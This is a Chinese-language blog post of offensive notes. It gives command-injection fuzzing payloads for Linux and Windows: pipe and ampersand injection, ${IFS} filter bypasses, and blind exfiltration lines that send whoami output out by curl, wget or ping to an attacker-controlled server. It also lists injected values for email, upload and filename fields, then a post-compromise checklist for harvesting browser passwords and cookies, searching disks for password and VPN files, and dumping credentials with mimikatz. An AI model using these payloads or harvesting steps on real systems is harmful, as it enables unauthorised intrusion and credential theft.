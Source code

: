 ```yaml
---
layout: post
title: "「Fuzz」:浅谈一些模糊匹配搜集信息的技巧"
author: Bin4xin
categories:
    - blog
    - 笔记
    - fuzz
    - 信息搜集
permalink: /blog/2020/learn/to/fuzz/
---
```


写在文前：

> 我们在web攻防期间有很多时候有一种感觉：那就是遇到rce漏洞时，bp放包的时候有一种隐隐的感觉，有的时候bp的反包字节大小莫名其妙的怪异，有经验的老师傅就索性直接跑RCE的fuzz字典，所以本篇就日常记录一些有关于web攻防期间的一些fuzz技巧

# 服务器RCE的fuzz技巧

* Windows机器的fuzz

即我们可以在关键参数后面使用管道符号和连接符fuzz命令执行实现我们的盲打：

`||和&`
 
* linux机器的fuzz

同上

`||和&`

* Linux下过滤空格可以使用:
```
${IFS},$IFS,$IFS$9
```

* JSON格式下的测试:
```
\u000awget\u0020 http://ip
```

Linux下可以包括反引号，windows下不可以。

## Linux下正常测试rce:
```bash
服务器启动web，注意需要处于监听状态下启动：

bin4xin@bin4xin's MacbookPro tools % python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...

```
rce fuzz命令如下：
```bash
bin4xin@bin4xin's MacbookPro tools % curl 192.168.101.51:8000/`whoami`
```
同时我们反过来看web日志记录：
```bash
::ffff:192.168.101.51 - - [19/Sep/2020 13:57:25] "GET /bin4xin HTTP/1.1" 301 -
```
同理各位可以发散思维：

ping `whoami`.服务器地址

如上，ping、curl同样适用。


一些特殊字符绕过姿势:

```bash
curl http://服务器地址/$(whoami)

curl http://服务器地址/$(whoami|base64)

'w'g'e't${IFS}服务器地址
```
各位可以自行实验在linux下的效果。

## Windows探测:

fuzz技巧是一样的，只是fuzz命令有一些区别；
```bash
ping %USERNAME%.服务器地址
------
(获取计算机名)
for /F %x in ('whoami') do start http://服务器地址/%x
------
(获取用户名称)
for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.服务器地址
------
测试邮箱:`wget%209服务器地址/xxxx`@qq.com

测试上传:`sleep 10`filename

测试filenname:`||wget%20服务器地址`

测试上传处下的名称: ;payload|payload&payload
;whoami|whoami&whoami
------
```

# 个人机器信息收集

1. 浏览器[Chrome,Firefox,Edge,IE,360,QQ ]信息(历史记录，密码，书签，cookie)：

   ```
   %LocalAppData%\Google\Chrome\User Data\Default
   %APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\
   ```

2. 机器内敏感文件，关键词：账号、密码、备份、登录、管理、邮箱、后台、资产、网络

   ```
   for /r D:\ %i in (*密码*) do @echo %i
   for /r D:\ %i in (*vpn*) do @echo %i
   for /r D:\ %i in (*账号*) do @echo %i
   ```

3. 机器进程

   * 杀软/edr
   * teamviewer/等远程管理工具
   * 服务类进程：mssql/java/web服务

4. 安装软件列表

5. 当前windows 凭证管理器存储的密码

   * 登录密码（mimikatz）

   * wifi密码

   * outlook密码

   * ……

6. 机器开放端口信息/防火墙信息/获取机器共享

   ```
   netstat -naop
   wmic share  get name,path,status  #利用wmic查找共享
   ```

7. 获取机器所有rdp连接记录

8. 获取所有盘符

   ```
   wmic logicaldisk where drivetype=3 get name,freespace,systemname,filesystem,volumeserialnumber,size #查看分区
   ```

9. 获取全盘所有敏感文件

   .doc\xlsx\md\sql\ppt*\txt

   ```
   for /r D:\ %i in (*.doc) do @echo %i
   for /r D:\ %i in (*.xlsx) do @echo %i
   for /r D:\ %i in (*.ppt*)) do @echo %i
   ```

10. 本地环境
    * hosts
    * 环境变量
    * 补丁列表
    * 当前主机的会话信息

工作不饱和 总结了一下个人办公机信息收集思路